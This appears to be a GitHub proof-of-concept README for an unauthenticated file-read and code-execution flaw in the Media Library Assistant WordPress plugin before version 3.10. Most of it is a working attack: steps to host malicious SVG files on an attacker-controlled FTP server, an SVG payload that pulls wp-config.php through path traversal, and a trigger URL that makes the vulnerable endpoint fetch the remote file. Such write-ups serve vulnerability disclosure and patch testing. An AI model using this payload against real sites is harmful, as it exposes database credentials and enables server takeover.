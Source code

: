 # Media-Library-Assistant
Media Library Assistant Wordpress Plugin - RCE and LFI
Description:
# Media Library Assistant Wordpress Plugin in version < 3.10 is affected by an unauthenticated remote reference to Imagick() conversion which allows attacker to perform LFI and RCE depending on the Imagick configuration on the remote server. The affected page is: wp-content/plugins/media-library-assistant/includes/mla-stream-image.php


#LFI

Steps to trigger conversion of a remote SVG

Create a remote FTP server at ftp://X.X.X.X:21 (http will not work, see references)

Host 2 files :
- malicious.svg
- malicious.svg[1]


Payload:
For LFI, getting wp-config.php:

Both malicious.svg and malicious.svg[1] on the remote FTP:

<svg width="500" height="500"
xmlns:xlink="http://www.w3.org/1999/xlink">
xmlns="http://www.w3.org/2000/svg">
<image xlink:href= "text:../../../../wp-config.php" width="500" height="500" />
</svg>

Then trigger conversion with:
http://127.0.0.1/wp-content/plugins/media-library-assistant/includes/mla-stream-image.php?mla_stream_file=ftp://X.X.X.X:21/malicious.svg&mla_debug=log&mla_stream_frame=1
